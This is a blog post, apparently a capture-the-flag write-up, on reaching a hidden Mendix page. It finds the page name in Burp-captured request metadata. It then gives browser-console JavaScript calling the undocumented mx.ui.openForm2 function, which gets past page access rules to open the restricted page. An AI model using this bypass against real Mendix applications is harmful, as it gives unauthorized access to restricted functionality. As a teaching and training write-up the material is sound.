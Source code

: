 ```yaml
---
title: "No Accessible Vector (CTF solution)"
# description: "How to find the best hardware for Mendix developers"
author: "Marius"
url: "/blog/capture-the-flag-solutions-no-accessible-vector"
date: "2025-10-18"
tags: ["Mendix", "Development", "Tips", "Challenge", "CTF"]

ShowReadingTime: true
hidemeta: false
showtoc: false
# draft: true
---
```


> _Another day, another tester leaking something they shouldn't. You have no chance navigating your way to the flag though: It is simply not visible for you!_

**Difficulty: Medium**

Let's solve the No Accessible Vector challenge using the principles we've just learned. Make sure you read the [Capture the Flag tips](/blog/capture-the-flag-tips) first, as this article leans heavily on the first.

First, we read the description and realize that a tester built a page that we don't have access to. We can use our first principle of **using developer mistakes** to theorize about the solution. One common mistake is a developer not realizing that all pages are accessible regardless of access rules. All we have to do is figure out the name of the page.

Going back to our **client − server** knowledge, there might be some data exchanged about available pages. And indeed, one of the requests contains some metadata about the page that includes pages not accessible to the current userrole:

![Burp content](/Burpcontent.png)

Now that we know the name of the page, all we have to do is open it. Attempting to open the page using the Ciphix DevTools is not possible because of the new strict mode enabled on this app. However, we know that the app _can_ open pages and using our knowledge about the client − server protocol, it needs to have a method to do so. We'll we have to do refer to our **[Client API](https://docs.mendix.com/apidocs-mxsdk/apidocs/client-api/)** knowledge to find available methods.

We can find a method called OpenForm in the [Dojo](https://apidocs.rnd.mendix.com/10/client/mx.ui.html#.openForm) documentation:
```
mx.ui.openForm("Portal/DevTools.page.xml", {
    location: "popup",
    callback: function(form) {
        console.log(form.id);
    }
});
```

Unfortunately for us attempting to execute this JavaScript function leads to an error. Apparently, OpenForm does not exist in the React client anymore. We'll have to find another way!

Searching through the requests in **Burp**, we find a reference to an undocumented function OpenForm2:

![OpenForm2](/OpenForm2.png)

Being undocumented provides some difficulty in figuring out which parameters the function expects. Since this is a client-side JavaScript function we can just enable a debugger on the JavaScript code and reuse the parameters from that request.

![Debugging OpenForm2](/DebugOpenForm2.png)

Using these parameters, we can construct our own JavaScript function by replacing some content with our own and executing it from the browser console:

```
let e = "Portal/DevTools.page.xml";  //PageTitle
let n = {}; // ?
let r = null; // ?
let i = {
    "place": "content",
    "listeners": {},
    "suspended": false,
    "title": "Homepage",
    "historyId": "historyId_tks_0",
    "storeBackend": {
        "recordGroups": {},
        "mirrorCount": {},
        "usedSlotsCount": {},
        "slotObservers": {}
    },
    "name": "Portal.Home_Web"
}
let s = {
    "name": "Portal/MyDoctors.page.xml",
    "location": "content",
    "allowedRoles": [
        "Administrator",
        "User"
    ]
}
let c = 0; // Pages to close

mx.ui.openForm2(e,n,r,i,s,c);
```

This leads us to the hidden page and our flag. I hope this illustrates how each [principle](../capture-the-flag-tips) comes into play to solve these puzzles!